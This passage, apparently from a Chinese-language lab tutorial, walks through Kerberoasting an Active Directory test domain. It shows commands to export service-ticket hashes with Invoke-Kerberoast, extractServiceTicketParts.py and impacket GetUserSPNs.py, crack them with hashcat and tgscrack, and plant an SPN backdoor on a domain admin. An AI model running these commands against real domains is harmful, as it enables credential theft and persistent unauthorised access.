 2. **破解ST票据hash**

使用[extractServiceTicketParts.py](https://github.com/leechristensen/tgscrack/blob/master/extractServiceTicketParts.py) 提取票据hash到hash.txt中
```bash
pip2 install pyasn1
python2 extractServiceTicketParts.py ../2-40a10000-filepc@MySQL\~test.lab\~33306-TEST.LAB.kirbi > hash.txt
```
使用 [tgscrack](https://github.com/leechristensen/tgscrack/releases/tag/0.0.1) 爆破hash
```bash
tgscrack.exe -hashfile hash.txt -wordlist pass.txt
```
获取了明文密码为yuwin2012.com
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723171468959-cd869707-6c95-46c3-a1bb-7f6284ede84e.png#averageHue=%23414141&clientId=uf2e50bbb-793d-4&from=paste&height=161&id=u969429a8&originHeight=321&originWidth=1646&originalType=binary&ratio=2&rotation=0&showTitle=false&size=147893&status=done&style=none&taskId=u8420e2e8-cd7f-47b3-b38e-65a9080b4f6&title=&width=823)
### 使用Invoke-Kerberoast.ps1
地址：[Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast.ps1导出转换成 John the Ripper 或者 HashCat 能够直接爆破的字符串
```bash
powershell -exec bypass
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation > hash3.txt
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723115268935-0c5649f5-d36a-4027-9c62-ee75118f7e79.png#averageHue=%23999796&clientId=ud9049ef5-2ee5-4&from=paste&height=241&id=u758771b4&originHeight=481&originWidth=1933&originalType=binary&ratio=2&rotation=0&showTitle=false&size=77627&status=done&style=none&taskId=u8ccceab9-259c-47d9-a8a8-e37ef6b2fd0&title=&width=966.5)
然后分别将引号内蓝色部分的hash提取出来放到hashcat中破解即可
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723115859204-5890290e-7436-4317-8f5d-8d863cd31e21.png#averageHue=%23dcdbd9&clientId=ud0c50cef-036c-4&from=paste&height=326&id=u246a0350&originHeight=652&originWidth=2231&originalType=binary&ratio=2&rotation=0&showTitle=false&size=117322&status=done&style=none&taskId=u49532552-f6a6-48ba-ac61-531fe028163&title=&width=1115.5)
破解
```bash
hashcat -m 13100 hash3.txt pass.txt --force
```
# 域外利用：查询高价值SPN并导出ST
假设当前环境在域外，但是获取了一个普通域账号。我们可以在域名查询SPN并导出ST票据。工具：[GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

1. 该工具将会查找注册在域用户帐户下的SPN
```python
#windows可能报错获取不到票据，建议kali执行
#python3 GetUserSPNs.py -dc-ip ip 域名/普通域用户:密码
python3 GetUserSPNs.py -dc-ip 192.168.10.2 test.lab/filepc:filepc.com
```
Name为yuwin2012的MemberOf中显示Domain Admins，说明该域用户为域管理员
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723172510392-10748eef-362c-4d36-ae9f-b40c50c798e5.png#averageHue=%2333464a&clientId=uf2e50bbb-793d-4&from=paste&height=120&id=u36b89b37&originHeight=239&originWidth=2185&originalType=binary&ratio=2&rotation=0&showTitle=false&size=141932&status=done&style=none&taskId=u6d613338-1514-4eba-9df0-7a59a23c5ca&title=&width=1092.5)

2. 导出ST
```python
python3 GetUserSPNs.py -request -dc-ip 192.168.10.2 test.lab/filepc:filepc.com
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723172728337-e0f442c4-ca3d-4098-aacd-aa628fa3460a.png#averageHue=%233a4c52&clientId=uf2e50bbb-793d-4&from=paste&height=472&id=udcf5afe6&originHeight=943&originWidth=3071&originalType=binary&ratio=2&rotation=0&showTitle=false&size=631290&status=done&style=none&taskId=u39e07532-a4df-4b07-987c-3b06cd44ea6&title=&width=1535.5)
将上面hash保存到hash.txt中，使用hashcat爆破
```python
hashcat -m 13100  hash.txt  pass.txt --force
```
# Kerberoast 后门利用
在获得域管的权限后，可以为任意域用户如域管注册一个SPN，这样可以随时获得该域用户的ST
例如为域管yuwin2012添加SPN VNC/DC.test.lab，参数如下：
```bash
setspn -U -A VNC/DC.test.lab yuwin2012
```
请求ST
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723173949191-d4ae40f0-38d3-4d35-a8ee-ea94d746ac3e.png#averageHue=%2337494f&clientId=uf2e50bbb-793d-4&from=paste&height=305&id=u79220d9b&originHeight=609&originWidth=3055&originalType=binary&ratio=2&rotation=0&showTitle=false&size=421850&status=done&style=none&taskId=uc82791d8-1ba5-4c7e-a6f4-e1194047eba&title=&width=1527.5)
